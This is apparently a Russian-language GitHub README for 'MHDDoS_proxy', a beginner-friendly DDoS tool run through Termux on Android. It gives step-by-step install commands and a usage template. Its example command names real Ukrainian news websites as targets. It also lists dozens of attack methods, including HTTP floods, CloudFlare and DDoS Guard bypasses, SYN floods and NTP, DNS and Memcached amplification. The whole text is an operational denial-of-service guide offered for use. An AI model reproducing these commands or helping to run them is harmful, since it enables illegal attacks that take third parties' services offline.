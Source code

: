 <h1 align="center">MHDDoS Proxy (Termux)</h1> 
April 06, 2022

MHDDoS_proxy - это модификация MHDDoS для новичков. 

<br/>

## Termux: 

https://github.com/termux/termux-app/releases - выбираете termux-app_v0.118.0+github-debug_universal.apk и скачиваете


## Обновление пакетов и закачка нужных пакетов:
```
pkg update -y && pkg upgrade -y
(если будет спрашивать со вставкой "(Y/I/N/O/D/Z) [default=N] ?", то пишите "Y" и нажмите enter) 
pkg install git -y
pkg install python3 -y
```

## Загрузка утилиты:
```
termux-setup-storage
git clone https://github.com/BionecX/mhddos_p.git
cd mhddos_p
python3 -m pip install -r requirements.txt
pip3 install requests
pip3 install tabulate
pip3 install yarl
pip3 install cfscrape
pip3 install impacket
pip3 install colorama
pip3 install cloudscraper
git clone https://github.com/MHProDev/PyRoxy.git
cd PyRoxy
python3 setup.py build
python3 setup.py install
cd ..
```

## Использование:

Шаблон: python runner.py <метод://цель...> -t <потоки>  -p <период обновления запроса> --debug

Пример: python3 runner.py https://hvylya.net/ https://tsn.ua/ tcp://ubr.ua -t 50 -p 900

<br/>

Период: оптимальное количество 700-1200

Методы/основные: TCP/UDP/HTTP/HTTPS

<h2 align="center">Все методы:</h2>

## Layer7

     GET | GET Flood
     POST | POST Flood
     OVH | Bypass OVH
     STRESS | Send HTTP Packet With High Byte
     DYN | A New Method With Random SubDomain
     DOWNLOADER | A New Method of Reading data slowly
     SLOW | Slowloris Old Method of DDoS
     HEAD | https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD
     NULL | Null UserAgent and ...
     COOKIE | Random Cookie PHP 'if (isset($_COOKIE))'
     PPS | Only 'GET / HTTP/1.1\r\n\r\n'
     EVEN | GET Method with more header
     GSB | Google Project Shield Bypass
     DGB | DDoS Guard Bypass
     AVB | Arvan Cloud Bypass
     BOT | Like Google bot
     APACHE | Apache Expliot
     XMLRPC | WP XMLRPC expliot (add /xmlrpc.php)
     CFB | CloudFlare Bypass
     CFBUAM | CloudFlare Under Attack Mode Bypass
     BYPASS | Bypass Normal AntiDDoS
     BOMB | Bypass with codesenberg/bombardier
     KILLER | run many threads to kill a target

## Layer4:

     TCP | TCP Flood Bypass
     UDP | UDP Flood Bypass
     SYN | SYN Flood
     CPS | Open and close connections with proxy
     CONNECTION | Open connection alive with proxy
     VSE | Send Valve Source Engine Protocol
     TS3 | Send Teamspeak 3 Status Ping Protocol
     FIVEM | Send Fivem Status Ping Protocol
     MEM | Memcached Amplification
     NTP | NTP Amplification
     MCBOT | Minecraft Bot Attack
     MINECRAFT | Minecraft Status Ping Protocol
     MCPE | Minecraft PE Status Ping Protocol
     DNS | DNS Amplification
     CHAR | Chargen Amplification
     CLDAP | Cldap Amplification
     ARD | Apple Remote Desktop Amplification
     RDP | Remote Desktop Protocol Amplification


Tools - Run With python3 start.py tools

    Tools - Run With python3 start.py tools
    CFIP | Find Real IP Address Of Websites Powered By Cloudflare
    DNS | Show DNS Records Of Sites
    TSSRV | TeamSpeak SRV Resolver
    PING | PING Servers
    CHECK | Check If Websites Status
    DSTAT | That Shows Bytes Received, bytes Sent and their amount
    
    
Other   
    
    STOP | STOP All Attacks
    TOOLS | Console Tools
    HELP | Show Usage Script




